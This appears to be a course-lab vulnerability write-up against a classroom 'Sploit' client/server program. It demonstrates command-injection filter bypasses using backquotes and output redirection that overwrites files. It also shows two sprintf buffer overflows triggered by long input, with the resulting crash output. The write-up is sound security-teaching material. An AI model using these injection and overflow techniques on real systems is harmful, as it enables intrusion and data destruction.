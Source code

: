 ## Team 4

### Command Injection

* Using echo command. Only | and ; are filtered to check for multiple commands. We can use backquotes.
```
echo `uname -a`
Linux mc02.cs.purdue.edu 4.4.0-62-generic #83-Ubuntu SMP Wed Jan 18 14:10:15 
UTC 2017 x86_64 x86_64 x86_64 GNU/Linux

```

* Using ping command. The redirect operators are not filtered. We can use this to overwrite writable files.

```
ping google.com>vulnerable_file
ls
total 10480
-rwxr-x--- 1 njaganna njaganna 5309312 Mar 25 08:59 client
drwxrwxr-x 2 njaganna njaganna    4096 Mar 14 19:49 include
-rw-rw-r-- 1 njaganna njaganna    2440 Mar 14 19:49 Makefile
drwxr-x--- 6 njaganna njaganna    4096 Mar 25 08:59 obj
-rwxr-x--- 1 njaganna njaganna 5391136 Mar 25 08:59 server
-rw-r----- 1 njaganna njaganna     385 Mar 25 08:58 sploit.conf
drwxrwxr-x 6 njaganna njaganna    4096 Mar 14 19:49 src
-rw-r----- 1 njaganna njaganna     286 Mar 25 09:49 vulnerable_file
```

### Buffer Overflow

* The ping command is constructed using a buffer of size 128. We can overflow this by giving a hostname which exceeds the size.
```C
char pingcmd[128];
sprintf(pingcmd, "ping %s", host.c_str());

Client:
ping first
ping AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAA 

Server:
ping: unknown host first
Segmentation fault (core dumped)
mc02 60 $ 
```

* Any misc command is constructed by using a buffer of size 128. First it changes directory and then executes command. As unix path lengths can easily exceed 128 bytes, we can overflow the buffer by making the path long.

NOTE: Needs mkdir command in alias.
```C
char c_cmd[128];
sprintf(c_cmd, "cd %s && %s",
        getSession().getCurrentDir().c_str(),
        _cmd.c_str());

Client:
cd AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAA
echo Muhaha
Muhaha

Server: 
mc02 60 $ ./server
Sploit Server Starting...
Segmentation fault (core dumped)
mc02 61 $
```
